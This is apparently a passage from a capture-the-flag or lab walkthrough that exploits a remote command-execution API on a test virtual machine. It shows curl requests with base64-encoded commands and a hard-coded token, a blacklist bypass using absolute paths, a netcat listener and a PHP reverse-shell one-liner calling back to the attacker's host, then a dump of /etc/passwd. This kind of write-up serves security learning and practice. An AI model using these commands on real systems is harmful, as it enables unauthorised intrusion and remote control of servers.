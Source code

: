 The View object in parameter is the command to execute. The command is just
base64 encoded before sending it to the server as `object` in the url, the
string2` parameter is the UUID we generate a few lines ago sent in the HTTP
header as 'X-UUID'
parameter, the `object3` parameter is the token to authenticate to the API given
with the curl command just before also sent in the header as 'X-Token' (you may
need to look at the CallAPI method and more particulary at line 182 and 183)

    ::text
    [maggick@rootine ~]$ curl   https://192.168.56.101/do/cmd/$(echo -ne id | base64) --header "X-UUID: 00000000-02e7-1fb5-0000-000003daceff" --header "X-Token: n1dJEyZaiFtRyJSoIl2pzI0HDO6BGw18" --insecure
    {"status":"ok","command":"id","output":"uid=998(nginx) gid=997(nginx) groups=997(nginx)\n"}

We can execute command on the server, let us wrote a simple bash script to
simplify the next steps (we put an echo at the end to have a nice output):

    ::bash
    #!/bin/bash

    curl   https://192.168.56.101/do/cmd/$(echo -ne $1 | base64) --header "X-UUID: 00000000-02e7-1fb5-0000-000003daceff" --header "X-Token: n1dJEyZaiFtRyJSoIl2pzI0HDO6BGw18" --insecure
    echo ''

Let us gather some information about the system (there is a blacklist that block
us and forgive us to directly use `ls` but the absolute path works):

    ::text
    [maggick@rootine ~]$ ./p ls
    {"status":"error","output":"Command 'ls' contains a banned command."}
    [maggick@rootine ~]$ ./p /bin/ls
    {"status":"ok","command":"\/bin\/ls","output":"index.php\ntest.php\n"}

From there we can get an interactive reverse shell. Let us use the php reverse
shell from
[pentestmonkey](http://pentestmonkey.net/cheat-sheet/shells/reverse-shell-cheat-sheet):

We need to listen on our host machine for the server connection:

    ::text
    nc -v -n -l -p 8080

Then we need to open the connection from the server:

    ::text
    /bin\/php -r '$sock=fsockopen(\"192.168.56.1\",8080);exec(\"\/bin\/sh -i <&4 >&4 2>&4\");'

It works with no more restriction:

    ::text
    sh-4.2$ id
    id
    uid=998(nginx) gid=997(nginx) groups=997(nginx)

We can get a look at the `/etc/passwd` file:

    ::text
    cat /etc/passwd
    root:x:0:0:root:/root:/bin/bash
    bin:x:1:1:bin:/bin:/sbin/nologin
    daemon:x:2:2:daemon:/sbin:/sbin/nologin
    adm:x:3:4:adm:/var/adm:/sbin/nologin
    lp:x:4:7:lp:/var/spool/lpd:/sbin/nologin
    sync:x:5:0:sync:/sbin:/bin/sync
    shutdown:x:6:0:shutdown:/sbin:/sbin/shutdown
    halt:x:7:0:halt:/sbin:/sbin/halt
    mail:x:8:12:mail:/var/spool/mail:/sbin/nologin
    operator:x:11:0:operator:/root:/sbin/nologin
    games:x:12:100:games:/usr/games:/sbin/nologin
    ftp:x:14:50:FTP User:/var/ftp:/sbin/nologin